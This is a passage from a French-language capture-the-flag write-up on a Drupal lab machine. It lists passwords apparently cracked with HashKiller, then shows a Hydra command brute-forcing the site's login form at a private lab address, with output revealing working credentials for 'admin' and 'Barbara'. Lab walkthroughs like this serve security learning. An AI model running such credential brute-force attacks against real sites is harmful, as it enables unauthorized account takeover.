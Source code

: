 20/20 pour HashKiller !

![Affichage de l'image CTF8_passdrupal_HashKiller.png](images/CTF8_passdrupal_HashKiller.png)

On récupère le tout et on vérifie que les mots de passe trouvés sont effectivement les bons.

```console
root@blinils:~# cat passwordsflags.txt
football123
passw0rd
letmein!
drupal
1website
superSun123
MonsterDrink
4summer13
1loveU
BobMarley
BaseballSeason
12341234
sitepass
Seventy70
swanson
cherry
buddahbrother
drupalpassword
thundercats
fantasy

root@blinils:~# hydra -L drupal_firstnames.txt -P passwordsflags.txt 192.168.56.102 http-form-post \
'/node?destination=node:name=^USER^&pass=^PASS^&op=Log+in&form_build_id=form-e07a3b33babb2f3209fd8516fc0415f2&form_id=user_login_block:S=Location' -t 8
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-12-10 08:06:04
[DATA] max 8 tasks per 1 server, overall 8 tasks, 420 login tries (l:21/p:20), ~53 tries per task
[DATA] attacking http-post-form://192.168.56.102:80//node?destination=node:name=
^USER^&pass=^PASS^&op=Log+in&form_build_id=form-e07a3b33babb2f3209fd8516fc0415f2&form_id=user_login_block:S=Location
[80][http-post-form] host: 192.168.56.102   login: admin      password: football123
[80][http-post-form] host: 192.168.56.102   login: Barbara    password: passw0rd
```